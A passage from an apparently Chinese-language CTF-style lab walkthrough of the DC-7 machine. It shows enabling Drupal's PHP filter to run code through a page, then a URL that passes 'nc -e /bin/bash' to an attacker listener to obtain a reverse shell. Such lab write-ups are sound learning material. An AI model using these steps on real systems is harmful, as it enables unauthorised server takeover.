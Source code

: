 手动将下载好的压缩包导入到里面去

点击 Install new module，将下载模块包的链接添加上，点击 Install

![27](https://havocykp.github.io/assets/images/img_blog9/27.png)

插件安装成功，然后激活这个模块，点击：Enable newly added modules

![28](https://havocykp.github.io/assets/images/img_blog9/28.png)

选择 FILTERS，勾选PHP，点击Install安装

![29](https://havocykp.github.io/assets/images/img_blog9/29.png)

安装成功后提示

![30](https://havocykp.github.io/assets/images/img_blog9/30.png)

然后进入 Content，再点击Add content

![31](https://havocykp.github.io/assets/images/img_blog9/31.png)

选择 Basic page

![32](https://havocykp.github.io/assets/images/img_blog9/32.png)

写入 <?php phpinfo();?> 测试

![33](https://havocykp.github.io/assets/images/img_blog9/33.png)

漏洞利用成功

![34](https://havocykp.github.io/assets/images/img_blog9/34.png)



反弹shell

再将上面的phpinfo页面的内容改成如下

![35](https://havocykp.github.io/assets/images/img_blog9/35.png)

然后点击保存

![36](https://havocykp.github.io/assets/images/img_blog9/36.png)

开启监听，端口：9999

![37](https://havocykp.github.io/assets/images/img_blog9/37.png)

访问：*http://192.168.2.156/node/4?pendo=nc -e /bin/bash 192.168.2.110 9999*

![38](https://havocykp.github.io/assets/images/img_blog9/38.png)

这里直接使用 dc7user 用户做反弹，因为之前已经通过ssh登录

首先切换到交互模式shell
